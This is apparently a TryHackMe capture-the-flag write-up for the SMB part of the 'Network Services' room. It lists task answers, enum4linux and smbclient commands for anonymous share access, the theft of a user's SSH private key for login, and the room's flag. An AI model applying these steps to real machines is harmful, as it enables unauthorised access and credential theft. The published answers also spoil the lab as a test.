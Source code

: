 # Network Services

<Image src="https://tryhackme-images.s3.amazonaws.com/room-icons/623103b06d1d53c3d8bddfc16998f9d7.png" width="128" />

## Task 1 - Get Connected

> Ready? Let's get going!

No answer needed

## Task 2 - Understanding SMB

> What does SMB stand for?

Server Message Block

> What type of protocol is SMB?

response-request

> What do clients connect to servers using?

TCP/IP

> What systems does Samba run on?

Unix

## Task 3 - Enumerating SMB

> Conduct an nmap scan of your choosing, How many ports are open?

3

> What ports is SMB running on?

139/445

> Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the workgroup name?

WORKGROUP

Run:

```bash
 enum4linux -a <IP>
 enum4linux -a 10.10.10.1
```

<Image src="/images/writeups/thm/network/smb-workspace.png" />

> What comes up as the name of the machine?

POLOSMB

> What operating system version is running?

6.1

<Image src="/images/writeups/thm/network/smb-os.png" />

> What share sticks out as something we might want to investigate?

profiles

<Image src="/images/writeups/thm/network/smb-shares.png" />

## Task 4 - Exploiting SMB

> What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

smbclient //10.10.10.2/secret -U suit

> Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.

No answer needed

> Does the share allow anonymous access? Y/N?

Y

Run this command and press enter when it asks for a password:

```bash
smbclient //10.10.147.248/profiles -U Anonymous
```

> Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

John Cactus

```bash
smbclient //10.10.147.248/profiles -U Anonymous
get 'Working From Home Information.txt'
exi
cat 'Working From Home Information.txt'
```

<Image src="/images/writeups/thm/network/smb-document.png" />

> What service has been configured to allow him to work from home?

ssh

> Okay! Now we know this, what directory on the share should we look in?

.ssh

> This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

id_rsa

> What is the smb.txt flag?

THM{smb_is_fun_eh?}

To enter the ssh server, run this commands:

```bash
# move to root directory
cd

# connect to smb folder and get the key for ssh
smbclient //10.10.147.248/profiles -U Anonymous
get .ssh/id_rsa
exit

# add key to ssh
chmod 600 .ssh/id_rsa
ssh-add

# connect to ssh
ssh cactus@10.10.147.248
cat smb.txt
```
